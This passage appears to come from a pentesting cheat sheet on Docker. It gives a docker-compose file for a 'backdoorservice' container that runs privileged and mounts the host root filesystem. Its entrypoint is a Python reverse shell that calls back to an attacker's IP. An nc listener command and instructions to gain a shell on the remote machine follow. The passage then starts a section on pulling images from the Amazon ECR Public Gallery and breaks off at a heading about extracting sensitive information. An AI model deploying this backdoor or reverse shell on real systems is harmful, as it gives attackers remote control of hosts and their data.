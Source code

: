 Create a ~/docker-compose.yaml in the container.

You need to replace the `<image>`, `<local-ip>`, `<local-ip>` with your environment.

```yml
version: "2.1"
services:
  backdoorservice:
    restart: always
    image: <image>
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<local-ip>",<local-ip>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```

Then start listener in your local machine.

```sh
nc -lvnp 4444
```

Now run the docker compose in remote machine. You should gain a shell.

```sh
docker-compose run
```

<br />

## Amazon Elastic Container Registry (ECR) Public Gallery

### 1. Run the Docker Container

- **Retrieve a Container Image**

    ```sh
    docker pull public.ecr.aws/<registry-alias>/<repository>:latest
    ```

- **Check if It was Pulled**

    ```sh
    docker images
    ```

- **Run the Container and Interect with It**

    ```sh
    docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
    ```

### 2. Get Sensitive Information in the Container
